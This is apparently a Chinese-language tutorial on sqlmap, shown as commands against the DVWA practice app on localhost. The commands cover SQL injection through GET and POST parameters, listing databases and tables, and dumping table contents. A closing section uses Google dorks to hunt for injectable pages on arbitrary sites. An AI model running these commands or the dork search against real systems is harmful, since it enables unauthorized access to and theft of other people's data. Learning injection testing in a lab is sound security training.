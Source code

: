 # sqlmap

1.查看帮助

```
python2.7 sqlmap.py -h
```

2.测试url



```
python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low" 
```



保存请求头到`test.txt`，依然可以测试url

```
python2.7 sqlmap.py -r test.txt  
```



# sqlmap数据库检测

1.扫描数据库中的表，其中`test.txt`中包含请求头

```
python2.7 sqlmap.py -r test.txt --dbs
```

text.txt内容

```
GET /vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
Host: dvwa.localhost
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://dvwa.localhost/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,la;q=0.6
Cookie: PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low
```

也可以使用命令

```
python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low" --dbs
```

2.获取数据表名称

```
python2.7 sqlmap.py -r test.txt --tables
```

也可以使用那个长的命令，类似于1

3.查看表数据

```
python2.7 sqlmap.py -r test.txt -D 数据库名 --dump -T 表名
```



# sqlmap post注入

1.

找到注入提交的表单 `http://dvwa.localhost/vulnerabilities/xss_s/`

```
python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/xss_s/" --cookie="PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low" --data="txtName=11&mtxMessage=111&btnSign=Sign+Guestbook" --dbs
```

刷新该页面，会有变化

跳过确认操作 `--batch --smart`

```
python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/xss_s/" --cookie="PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low" --data="txtName=11&mtxMessage=111&btnSign=Sign+Guestbook" --dbs --batch --smart
```



2.寻找注入点，不能连接谷歌只能手动寻找注入点

```
 python2.7 sqlmap.py -g "inurl: admin.php?id="
```



关键词

```
 python2.7 sqlmap.py -g "inurl:\". php.?id=\""
```

